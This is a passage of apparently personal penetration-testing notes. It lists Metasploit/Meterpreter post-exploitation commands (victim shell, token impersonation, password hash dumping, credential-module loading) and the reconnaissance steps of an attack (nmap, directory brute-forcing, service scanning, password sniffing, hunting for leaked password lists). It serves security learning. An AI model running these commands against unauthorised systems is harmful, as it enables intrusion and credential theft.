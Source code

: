 One useful command is `generate` as it creates an **executable shell code.** Type `shell` to get access to the victim's shell.

 - You can impersonate users by first listing the tokens `list_tokens` and then `impersonate_token DELEGATION_TOKEN`.
 - `background` command is to make the session run in the background. To get the session back: `sessions -l` to list them and then `sessions -i ID`
 - `run post/linux/gather/hashdump` to dump all the psw hashes (on linux check `/etc/shadow`).
 - `migrate` s useful to migrate to another process (list processes with `ps`)
 - `shell` to open a shell session. To put such **shell session in background**, use `Ctrl + z`
 - (pro version) `load` allows you to load meterpreter modules to get credentials or others (e.g. `kiwi`). For example:
 ```
load incognito
list_tokens -u
hashdump
```

# Other free tools used below
There are may other tools with specific functionalities. A very short list of those I tried:
 - [BirDuster](https://github.com/ytisf/BirDuster)
 - [Responder](https://github.com/lgandx/Responder)
 - [Hashcat](https://hashcat.net/hashcat/)
 - [BurpSuite](https://portswigger.net/burp)
 - [SecLists](https://github.com/danielmiessler/SecLists)

# Steps of an attack

## Information gathering
 - The passive appraoch is to go on websites like [this one](https://hunter.io) and look for companies information. You can also look on google and even look for *1.4 billion clear passwords* on Google and find the Github where this database is conntained. You can find many lists of different kind of useful words at [SecLists](https://github.com/danielmiessler/SecLists): these lists are useful for all kind of bruteforce attacks. Can also use `theharvester` on kali-linux.
 - To bruteforce directories and files on a webserver, try [BirDuster](https://github.com/ytisf/BirDuster). You can `git clone https://github.com/ytisf/BirDuster.git` and run it via `python BirDuster.py -l dir_list.txt -p 88 localhost`. Use `python BirDuster.py -h` to get the help.
 - Port Scanning:  
     - The king here is **nmap**. `nmap -O -v -sV -A -Pn 192.168.1.0/24` i.e. Network Mapping to scan for open ports. Use option `-A` to get the ouput of all scripts of Nmap. `-Pn` is to treat all hosts an online. You can run attacks on my application if you want to practice: this is the [link](scanme.nmap.com). The list of `nmap` scripts can be found here: `/usr/share/nmap/scripts/`: they can be run the target port to check for vulnerabilities or to *enumerate*: for example, you can enumerate the ciphers used via `--script=ssl-enum-ciphers.nse -p 443 host_IP`. When running nmap, do it in a staged way: start with `nmap -T4 -p- host_name` to scan all ports. Then, only on the open ports, use the `-A` flag.
     - you can `load nexpose` : to run it you need to have an active nexpose server and `nexpose_connect` to it. Check commands with `-h`.
     - `use auxiliary/scanner/portscan/syn` . Then `show options` and fill in the missing parameters
     - `use auxiliary/scanner/smb/smb_version` to check what system they are running
     - For others modules, search for the keyword `search portscan`
 - Hunting for MSSQL:
     - `search mssql`. One of the apps is `use auxiliary/scanner/mssql/mssql_ping`. Once activated, then run a search over the hosts `set RHOSTS 192.168.1.0-10` and `exploit` to run
 - Service Identification:
     - scan for `ssh`, e.g. `use auxiliary/scanner/ssh/ssh_version`
     - scan for `ftp` exploits, e.g. `use auxiliary/scanner/ftp/ftp_version`
 - Password Sniffing:
     - `use auxiliary/sniffer/psnuffle` and it does not even require parameters! It just statistically understands the password by listening to the network traffic.
 - SNMP (Simple Network Management Protocol) sweeping: